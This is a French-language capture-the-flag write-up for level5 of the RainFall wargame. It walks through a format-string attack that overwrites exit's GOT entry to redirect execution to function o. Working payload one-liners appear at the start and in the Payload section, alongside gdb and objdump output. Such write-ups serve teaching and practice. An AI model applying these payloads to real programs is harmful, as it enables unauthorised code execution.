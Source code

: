 # Solution : 

```
(python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")'; cat) | ./level5
```

## Explication du level

Ici le niveau est le meme que les precedent sauf que au lieu d'utiliser un printf format exploit, pour ecrire dans une variable ou autre on va directment overwrite l'adresse d'une fonction de la libc , "exit" son adresse se situe dans la global offset table (GOT).

----------------------------------------------------------------------------------------
Adresse de o :
```
level5@RainFall:~$ gdb ./level5 
(gdb) p &o
$1 = (<text variable, no debug info> *) 0x80484a4 <o>
```
----------------------------------------------------------------------------------------

Adresse de exit dans la Got (global offset table) :

Technique 1 : 
```
level5@RainFall:~$ objdump -R level5 

level5:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
Technique 2 :
```
level5@RainFall:~$ gdb ./level5

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048390  _exit
0x08048390  _exit@plt
0x080483d0  exit
0x080483d0  exit@plt

(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:	jmp    *0x8049838
```
------------------------------------------------------------------------------------------------
On recupere l'offset :
```
level5@RainFall:~$ python -c 'print("AAAA" + " %p " * 8)'| ./level5 
AAAA 0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141  0x20702520  0x20702520  0x20702520  0x20702520
```
On converti l'adresse o en decimal : 

En hexadecimal  : 0x80484a4
En decimal      : 134513828

------------------------------------------------------------------------------------------------

## Payload
On cree notre payload :

Offset : 4
Adresse de o : 0x80484a4 || 134513828
Adresse de exit dans la GOT : 0x8049838

[Adress de exit dans la got] + [Padding pour overwrite a l'adresse de o] + [Argument que l'on veut overwrite]
```
(python -c 'print("\x38\x98\x04\x08" + "%134513824x" + "%4$n")'; cat) | ./level5
```
On retire 4 a l'adresse de o, pour que adresse de exit + 134513824 = adresse de o
